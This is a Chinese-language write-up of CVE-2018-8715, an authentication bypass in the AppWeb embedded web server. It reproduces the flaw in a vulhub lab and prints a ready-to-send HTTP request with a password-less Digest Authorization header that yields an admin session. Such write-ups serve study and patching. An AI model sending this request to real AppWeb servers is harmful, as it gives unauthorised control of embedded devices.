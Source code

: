# （CVE-2018-8715）AppWeb认证绕过漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2831](https://www.zhihuifly.com/t/topic/2831)

# （CVE-2018-8715）AppWeb认证绕过漏洞

## 一、漏洞简介

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

*   basic 传统HTTP基础认证
*   digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
*   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin 
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image](img/82a434cf342a76bdbeb452356babbac5.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![image](img/19fa28faab0c19b6980c2d83664d97c8.png)

## 参考链接

> https://vulhub.org/#/environments/appweb/CVE-2018-8715/